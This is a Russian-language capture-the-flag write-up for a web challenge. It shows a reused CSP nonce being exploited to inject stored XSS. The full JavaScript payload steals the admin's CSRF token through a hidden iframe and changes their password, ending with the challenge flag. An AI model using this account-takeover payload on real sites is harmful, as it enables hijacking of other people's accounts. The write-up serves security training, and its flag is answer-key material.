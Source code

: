 # Hello, Hacr!

## Описание:


| Название | Сложность |Автор |
|------|-----|-------|
| Hello, Hacr! | Hard | [@collapsz](https://t.me/collapsz17) |

## TLDR

Кража CSRF-токена для **CSRF** через **nonce CSP bypass**

---
## Решение:

Переходим на веб-интерфейс приложения

![изображение](https://github.com/user-attachments/assets/0498ce24-bf2e-4269-bd1f-f2044f0114e5)

Можем регистрироваться и авторизовываться, создадим себе аккаунт и посмотрим, что это нам дает

![изображение](https://github.com/user-attachments/assets/bc4d30f0-d3fe-4704-bc60-9ca9300f9f9d)

Попав за авторизацию, видим, что можем писать посты и отправлять на модерацию

![изображение](https://github.com/user-attachments/assets/aa8bf140-a2c2-4a26-a3c3-59c8431b9113)

А наличие `/admin` явно дает понять нам туда. Перейдем к разведке окружения 

![изображение](https://github.com/user-attachments/assets/f103336b-2db7-41df-8546-efa26e14cc97)

Так же в приложении предусмотрен функционал смены пароля. Примечательно, что текущий пароль не требуется – нужно лишь быть авторизованным

![изображение](https://github.com/user-attachments/assets/70f6f05a-35e2-43a6-9422-d5232263bf5a)

Проверим `cookie` – установлен флаг `httponly`, значит просто украсть сессию админа не выйдет

![изображение](https://github.com/user-attachments/assets/cd3d30a7-c782-457b-bef8-409d477bead6)

Любой запрос сопровождается CSRF-токеном – это усложняет задачку реализации CSRF

![изображение](https://github.com/user-attachments/assets/8c357479-117a-46fd-bc3e-2e5b249a1914)

В заголовках видим весьма суровую CSP:

![изображение](https://github.com/user-attachments/assets/518045ea-06fb-4196-87d6-7d6646cde7f7)

Таким образом вектор атаки – обойти CSP, найти способ украсть CSRF-токен администратора, который апрувит посты направо и налево, реализовать CSRF и, сменив пароль жертве, попасть на /admin 

Приступим к способу обойти CSP. CSP Evaluator ...

![изображение](https://github.com/user-attachments/assets/dea0fe6d-f5b9-4335-a403-95791a4f0d7d)

В контексте CSP (Content Security Policy) термин nonce (от "number used once") — это криптографический токен, который используется для разрешения выполнения встроенных скриптов (<script>) или стилей (<style>), если они содержат правильный атрибут nonce. Это механизм защиты от XSS-атак (межсайтового скриптинга), позволяющий контролировать, какие скрипты могут выполняться на странице.

Можем попробовать вызвать алерт с использованием nonce:

```
<script nonce="matrixrain">alert(1)</script>
```

Отлично – CSP обошли. Далее CSRF. Как мы помним, приложение использует CSRF токены для всех действий, значит сменить пароль, не зная этот токен, не выйдет. Однако у нас есть способ вызвать XSS, а значит мы можем внедрить вредоносный код, который сделает все за нас. 

Первым делом создадим `iframe` и укажем его источник, чтобы сделать возможной кражу CSRF-токена:
```
var iframe = document.createElement("iframe");
iframe.src = "/change_password";
iframe.style.display = "none";
document.body.appendChild(iframe);
```
Далее объявим основную функцию эксплоита и извлечем CSRF-токен со страницы /change_password: 
```
iframe.onload = function() {
var csrfToken = iframe.contentDocument.querySelector('input[name="csrf_token"]').value;
```
Укажем наш пароль: 
```
var newPassword = "zxczxczxc";
```
И, наконец, отправим запрос с использованием `XMLHttpRequest`:
```
var xhr = new XMLHttpRequest();
xhr.open("POST", "/change_password", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("csrf_token=" + csrfToken + "&new_password=" + newPassword);
```
Соберем сплоит воедино:
```
<script nonce="matrixrain">
var iframe = document.createElement("iframe");
iframe.src = "/change_password";
iframe.style.display = "none";
document.body.appendChild(iframe);

iframe.onload = function() {
    var csrfToken = iframe.contentDocument.querySelector('input[name="csrf_token"]').value;
    var newPassword = "zxczxczxc";

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/change_password", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("csrf_token=" + csrfToken + "&new_password=" + newPassword);
};
</script>
```
Напишем пост и отправим его на модерацию. 

Остается лишь дождаться модерации от администратора, зайти под ним и забрать флаг!


## Flag:
rdg{af4cf13151aee7af4aa26b9bb817a079}
